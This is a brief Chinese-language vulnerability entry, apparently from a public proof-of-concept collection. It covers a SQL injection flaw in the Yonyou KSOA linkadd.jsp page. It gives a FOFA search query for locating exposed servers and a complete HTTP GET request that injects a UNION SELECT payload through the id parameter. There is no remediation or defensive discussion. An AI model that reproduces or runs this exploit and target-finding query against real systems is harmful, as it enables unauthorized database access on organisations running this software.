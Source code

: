 ## 用友时空KSOA-linkadd.jsp存在SQL注入漏洞

## fofa
```
title="企业信息系统门户"
```

## poc
```
GET /linksframe/linkadd.jsp?id=666666%27+union+all+select+null%2Cnull%2Csys.fn_sqlvarbasetostr%28HashBytes%28%27MD5%27%2C%27123456%27%29%29%2Cnull%2Cnull%2C%27 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```

![dddb6abed3843740aef1ca9d49b2b0f2](../../images/646894eb-bdd1-47a8-a54c-f3479030c97f.png)
